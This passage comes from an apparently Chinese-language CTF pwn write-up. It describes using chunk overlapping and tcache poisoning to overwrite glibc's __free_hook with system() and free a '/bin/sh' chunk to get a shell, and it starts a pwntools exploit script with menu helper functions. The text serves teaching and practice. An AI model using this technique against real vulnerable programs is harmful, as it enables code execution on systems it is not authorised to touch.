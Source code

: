 **将这个small bin再分配回来我们就能够实现chunk overlapping了，继而就是通过程序的edit功能实现tcache poisoning修改__free_hook为system()后free一个内容为"/bin/sh"的chunk即可get shell**

需要注意的是`edit()`函数中是**从bk的位置开始输入**的，因而我们的fake chunk需要构造到`__free_hook - 8`的位置

![image.png](img/84848320ef18d496dfc97dac15fc4099.png)

故构造exp如下：

```
from pwn import *

context.arch = 'amd64'

p = process('./pwn') 
e = ELF('./pwn')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6') 

def cmd(command:int):
    p.recvuntil(b'>> ')
    p.sendline(str(command).encode())

def new(index:int, size:int):
    cmd(1)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())
    p.recvuntil(b"input size")
    p.sendline(str(size).encode())

def delete(index:int):
    cmd(2)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())

def edit(index:int, content):
    cmd(3)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())
    p.recvuntil(b"input content")
    p.send(content)

def dump(index:int):
    cmd(4)
    p.recvuntil(b"input index")
    p.sendline(str(index).encode())

def leaveYourName(content):
    cmd(5)
    p.recvuntil(b"your name:")
    p.send(content)
```